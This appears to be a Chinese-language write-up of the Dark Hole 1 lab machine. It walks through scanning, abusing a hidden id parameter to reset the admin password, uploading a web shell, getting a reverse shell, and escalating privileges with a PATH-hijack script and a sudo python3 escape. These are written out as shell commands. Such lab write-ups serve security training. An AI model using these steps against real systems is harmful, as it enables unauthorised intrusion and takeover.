 ```yaml
---
layout: post
title: Dark Hole 1
subtitle: Dark Hole 1
date: 2025-07-14 16:49
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机扫描，发现ip `192.168.163.134`

![image.png](https://img.ghostliner.top/jfD8gH.png)


端口扫描，发现80和22端口

![image.png](https://img.ghostliner.top/rlHix8.png)


扫描目录

```shell
dirb http://192.168.163.134
nikto -h 192.168.163.134
```

发现目录：

```
http://192.168.163.134/config/
http://192.168.163.134/upload/
http://192.168.163.134/login.php
```

对站点进行指纹识别，无发现，bp爆破用户名密码失败

尝试注册成功

登陆成功后地址为: http://192.168.163.134/dashboard.php?id=2

遍历页面id无效，只有一个页面，可以更改用户名、邮件和密码，sqlmap测试密码时发现隐藏字段id参数，bp遍历id尝试更改其他用户密码。

admin登录成功，可以上传文件

上传一句话木马，经测试可以上传 `shell.phtml`

蚁剑连接，反弹shell

![image.png](https://img.ghostliner.top/GvKSmS.png)

反弹成功，查看数据库未发现有效信息

![image.png](https://img.ghostliner.top/7dwDHN.png)

查看john家目录，发现特殊权限的 `toto`

![image.png](https://img.ghostliner.top/fyi8kc.png)

toto疑似使用 `id`命令，更改环境变量修改为我们自定义的 `id`命令

```shell
echo '/bin/bash' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
./toto
```

提权成功，获取到密码

![image.png](https://img.ghostliner.top/Wva3ra.png)

获取到flag

![image.png](https://img.ghostliner.top/MtRwdk.png)

root提权

![image.png](https://img.ghostliner.top/D6WblV.png)

```shell
echo 'import os;os.system("/bin/bash")' > file.py
sudo /usr/bin/python3 /home/john/file.py
```

root提权成功，查看最终flag

![image.png](https://img.ghostliner.top/Ifoh5M.png)

